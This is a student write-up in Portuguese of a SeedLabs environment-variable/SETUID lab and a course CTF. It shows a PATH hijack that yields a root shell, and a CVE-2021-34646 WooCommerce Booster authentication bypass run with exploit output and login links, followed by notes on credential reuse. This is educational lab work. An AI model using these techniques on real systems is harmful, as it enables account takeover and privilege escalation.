

# SeedLabs: Environment Variables and SETUID
## Task 1


`export` and `unset`


## Task 2

a.out imprime todas as variáveis de ambiente que recebe.

```
Antes de comentar a linha (1)
./a.out > file1
```

```
Após remover o comment na linha 2 (2) and comentar a linha (1)
./a.out > file2
```

Como `diff file1 file2` não tem output, ou seja, os ficheiros apresentam o mesmo conteúdo, as variáveis de ambiente são herdadas pelo processo filho.

## Task 3

`execve("/usr/bin/env", argv, NULL);` 
não tem output pois nenhuma variável de ambiente é enviada para o programa `/usr/bin/env`.

`execve("/usr/bin/env", argv, environ);` imprime todas as variáveis de ambiente do sistema.

Logo, podemos concluir que o comando `execve` pode alterar as variáveis de ambiente, que são reescritas no processo.

## Task 4

Depois de compilar e executar o programa, podemos verificar que todas as variáveis de ambiente são passadas para a system call.

## Task 5

Após definir as variaveis de ambiente `PATH`, `LD_LIBRARY_PATH`, `LD_FOOBAR` e `FSI`, verificamos que todas excepto `LD_LIBRARY_PATH` se mantiveram na execução do processo filho, apesar de executar como `root`.



## Task 6


O programa criado para a task6, `task6.c` apenas chama a função `ls` utilizando uma call `system()`. Alterando a variável `PATH` podemos alterar criar um outro programa com nome `ls` que será executado em vez do `ls` real.
No caso da imagem ilustrativa foi criado um link, chamado `ls` para `/bin/sh`, ao executar o programa task6 podemos confirmar que o ataque funcionou como esperado, abrindo uma shell com permissões de root, que pode ser verificado através do comando `whoami`.

---

# CTF

**URL**: [http://ctf-fsi.fe.up.pt:5001](http://ctf-fsi.fe.up.pt:5001/)
No resto deste writeup será utilizado {url} em vez do url real para tornar o texto mais legível.

| Nome | Flag |
| ------ | ---- |
| Desafio 1 | `flag{CVE-2021-34646}` |
| Desafio 2 | `flag{525efdabed881b53c3d702f2c5f2b4ff}` |

## Reconhecimento

Nesta fase pretendemos identificar toda a informação que o website nos fornece publicamente.

### {url}/product/wordpress-hosting/

Esta página revela algumas informações importantes, as versões de software usadas e dois nomes de utilizadores que poderão vir a ser úteis, `Orval Sanford` e `admin`. 


| Software | Versão |
| -------- |-------|
| Wordpress | 5.8.1 |
| WooCommerce plugin | 5.7.1 |
| Booster for WooCommerce plugin | 5.4.3 |


### {url}/robots.txt
Este é um ficheiro existente em muitos websites que pode revelar informações sobre os mesmos. É utilizado para impedir a indexação de certas páginas por parte de motores de pesquisa e web crawlers, dai a palavra *robots*.
```txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://ctf-fsi.fe.up.pt:5001/wp-sitemap.xml
```

Deste ficheiro podemos extrair algumas informações interessantes, primeiro a existência do caminho ``/wp-admin/`` que redireciona para um form de login (Credenciais default de wordpress, `admin/password`, não funcionam mas vale sempre a pena tentar).
Segundamente, descobrimos um sitemap que ajudará a iterar todas as páginas existentes

### {url}/wp-sitemap.xml
Nenhuma informação importante é revelada

### Source code
```html
<meta name="generator" content="WordPress 5.8.1" /> 
<meta name="generator" content="WooCommerce 5.7.1" />
```

### Scan
Seria útil correr um scan automático de caminhos relativos usando uma ferramenta como `gobuster` ou `dirb` mas regras são regras e isso não é permitido.

### Procura de vulnerabilidade

Os melhores pontos de começo por onde pesquisar possíveis vulnerabilidades são as versões de software anteriormente encontradas.

Acedendo a [exploit-db.com](https://www.exploit-db.com/) e procurando com as seguintes queries: `wordpress 5.8.1`, `woocommerce 5.7.1`, `booster 5.4.3` encontramos um exploit, [WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass](https://www.exploit-db.com/exploits/50299) que permite dar bypass a autenticação, o que parece perfeito para o nosso desafio. 


### Análise do CVE
O exploit anteriormente referido aplica-se ao **CVE-2021-34646**, e esta é a nossa primeira flag.
A vulnerabilidade permite dar bypass à autenticação devido a uma fraqueza relacionada com a geração de um token aleatório. Esta permite que os atacantes finjam ser utilizadores e ativem uma verificação de endereço de email para contas arbitrárias, incluindo contas administrativas, sendo automaticamente logados nessa conta.

### Execução do Exploit

Acedendo a `{url}/wp-json/wp/v2/users/` (Informação fornecida do código do exploit) podemos identificar que o id do user `admin` é `1`.

```sh
> python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Fri, 05 Nov 2021 22:59:06 GMT
Timestamp (unix): 1636153146

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash e8ac9d1e07c77411fc0fd52cc47bade5:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZThhYzlkMWUwN2M3NzQxMWZjMGZkNTJjYzQ3YmFkZTUifQ

#1 link for hash ab59d86c454385dbde188310cacc4335:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYWI1OWQ4NmM0NTQzODVkYmRlMTg4MzEwY2FjYzQzMzUifQ

#2 link for hash b5342e1b8a258593a2e0898c5fb222b6:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjUzNDJlMWI4YTI1ODU5M2EyZTA4OThjNWZiMjIyYjYifQ
```

Acedendo ao `#0 link`, ganhamos acesso ao perfil do utilizador `admin` e uma notificação a dizer:

**Success:** Your account has been activated!

:)


Com as permissões de admin temos acesso ao painel de configuração `{url}/wp-admin/index.php` onde podemos explorar informações sobre o servidor.

Em `{url}/wp-admin/edit.php` encontramos um post privado titulado **"Message to our employees"** onde o CISO da empresa revela que a empresa usa uma Cifra de César para guardar as passwords dos seus utilizadores e adicionalmente expõe a sua password atual que é `flag{525efdabed881b53c3d702f2c5f2b4ff}` mas que devia ser uma password mais segura como `hktpu1234`


De `{url}/wp-admin/users.php` podemos extrair informações pessoais dos utilizadores do website.

| username | name |  email |
| ---------- | ----- | --- |
|admin | _ | admin@real.com|
|orval_sanford | Orval Sanford | orval_sanford@notrealmail.cenas|

Na secção de **Comments**, `{url}/wp-admin/edit-comments.php` é leaked um ip, pertencente à rede interna, a partir do qual foram criados os comentários, `172.19.0.1`


### Consequências

Com acesso à conta administrativa poderíamos interferir com o website de várias formas como eliminar dados importantes, bloquear acesso a utilizadores, ou temporáriamente impedir o seu funcionamento.

Como passwords são muitas vezes reutilizadas podemos tentar mais algumas coisas:

A password leaked pertencente ao CISO da empresa poderia ser testada no serviço ssh para tentar obter uma shell e tomar controlo do sistema. 

No caso de ser possível obter a base de dados onde as passwords cifradas dos utilizadores são guardadas seria trivial obter as passwords reais pois a Cifra utilizada não fornece quase nenhuma proteção. Tendo a combinação de email e passwords, poderiam ser testadas contra serviços como contas de email e redes sociais dos utilizadores.
